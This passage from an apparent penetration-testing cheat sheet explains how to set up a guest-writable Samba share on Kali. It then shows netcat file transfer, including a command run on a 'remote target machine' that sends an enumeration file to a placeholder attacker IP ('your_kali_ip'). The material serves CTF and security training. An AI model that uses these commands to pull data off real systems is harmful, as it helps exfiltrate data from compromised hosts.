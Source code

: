 ```default
[myshare]
   path = /home/kali/_share
   browseable = yes
   writable = yes
   read only = no
   guest ok = yes
   acl allow execute always = True
```

You will need to (re)start the smbd service for this change to take effect:
```bash
sudo /etc/init.d/smbd restart
```

Using `netstat -tulpn` you can confirm that ports 139 and 445 should be open and listening now. 

You can also check the available shares with the `smbclient -L //127.0.0.1` command. Or connect directly to your new share with: `smbclient //127.0.0.1/myshare`

You can turn the SMB server on and off like this:

```default
sudo /etc/init.d/smbd start
sudo /etc/init.d/smbd stop

sudo /etc/init.d/smbd restart
```

You probably want to turn it off once you don't need it anymore.


## Netcat

```default
 /$$   /$$             /$$      /$$$$$$   /$$$$$$  /$$$$$$$$
| $$$ | $$            | $$     /$$__  $$ /$$__  $$|__  $$__/
| $$$$| $$  /$$$$$$  /$$$$$$  | $$  \__/| $$  \ $$   | $$   
| $$ $$ $$ /$$__  $$|_  $$_/  | $$      | $$$$$$$$   | $$   
| $$  $$$$| $$$$$$$$  | $$    | $$      | $$__  $$   | $$   
| $$\  $$$| $$_____/  | $$ /$$| $$    $$| $$  | $$   | $$   
| $$ \  $$|  $$$$$$$  |  $$$$/|  $$$$$$/| $$  | $$   | $$   
|__/  \__/ \_______/   \___/   \______/ |__/  |__/   |__/   

```

This is especially relevant in the linux/bsd sphere, where you will often find some flavor of netcat installed. Finding netcat installed on a Windows machine is less common (outside of CTFs).

### Transfer files via reverse connect

Upload from target to your own machine:

```bash
# On your own machine listen for a connection
nc -vlnp 4545 > some_enum.txt
```
```bash
# On the remote target machine, connect to the listener
nc [your_kali_ip] 4545 < some_enum.txt
```
